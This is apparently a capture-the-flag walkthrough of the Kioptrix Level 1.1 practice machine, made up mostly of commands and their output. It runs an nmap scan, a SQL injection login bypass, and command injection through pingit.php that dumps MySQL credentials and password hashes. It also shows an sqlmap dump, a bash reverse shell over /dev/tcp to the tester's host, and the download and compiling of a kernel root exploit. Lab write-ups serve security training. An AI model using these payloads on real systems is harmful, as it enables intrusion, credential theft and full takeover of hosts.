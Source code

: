 # Kioptrix 1.1

## Remote
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            869/udp  status
|_  100024  1            872/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2018-04-22T14:47:38+00:00; +4h00m00s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)


### Apache 2.0.52

The server is hosting a crude PHP login application. I'm able SQLi this form.

``` shell
curl -v http://192.168.122.61/index.php \
    --data-raw "btnLogin=Login&uname=u&psw=pass' OR 1=1-- "
```

This shows us a form that lets us ping a host. We can exploit this to
get command execution as the 'apache' user. After enumerating the
directory we get the SQL server login credentials.

``` shell
curl -v http://192.168.122.61/pingit.php \
    --data-raw "&submit=submit&ip=127.0.0.1; cat index.php"
```

```
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
  	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

Using this I'm able to query mysql for more users in the webapp database.

```
 curl http://192.168.122.61/pingit.php --data-raw '&submit=submit&ip=; mysql -hlocalhost -ujohn -phiroshima --database=webapp -e "select * from users;"'
; mysql -v -hlocalhost -uroot -phiroshima --database=webapp -e "select * from users;"<pre>--------------
select * from users
--------------

id	username	password
1	admin	5afac8d85f
2	john	66lajGGbla
</pre>%
```

And we can do the same in the mysql user table.

```
curl http://192.168.122.61/pingit.php --data-raw '&submit=submit&ip=; mysql -v -hlocalhost -ujohn -phiroshima --database=mysql -e "select * from user;"'
; mysql -v -hlocalhost -ujohn -phiroshima --database=mysql -e "select * from user;"<pre>--------------
select * from user
--------------

Host	User	Password	Select_priv	Insert_priv	Update_priv	Delete_priv	Create_priv	Drop_priv	Reload_priv	Shutdown_priv	Process_priv	File_priv	Grant_priv	References_priv	Index_priv	Alter_priv	Show_db_priv	Super_priv	Create_tmp_table_priv	Lock_tables_priv	Execute_privRepl_slave_priv	Repl_client_priv	ssl_type	ssl_cipher	x509_issuer	x509_subject	max_questions	max_updates	max_connections
localhost	root	5a6914ba69e02807	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y					0	0	0
localhost.localdomain	root	5a6914ba69e02807	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y					0	0	0
localhost.localdomain			N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N					0	0	0
localhost			N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N					0	0	0
localhost	john	5a6914ba69e02807	Y	Y	Y	Y	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N					0	0	0
</pre>%
```

This would be possible to do this using sqlmap.

```
./sqlmap.py -u http://192.168.122.61/index.php --data='btnLogin=Login&psw=aaa&uname=aaa' --level 5 --risk 3 --dump

```

This returns this dump of the database.

+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+

I can use the same command injection to get a reverse shell.

``` local
nv -lvp 1234
```

```
curl -vi http://192.168.122.61/pingit.php --data-raw '&submit=submit&ip=; bash -i %3e%26 /dev/tcp/192.168.122.1/1234 0%3e%261'
```


## Local

There is a local privilege escalation for CentOS 4.5.

Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

```
bash-3.00$ wget 192.168.122.1:8000/9542.c
--13:46:05--  http://192.168.122.1:8000/9542.c
           => `9542.c'
Connecting to 192.168.122.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%   86.92 MB/s

13:46:05 (86.92 MB/s) - `9542.c' saved [2643/2643]

bash-3.00$ gcc -o 9542 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./9542
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# hostname
kioptrix.level2
```

### Users

#### John
Password = 'GuardTower'
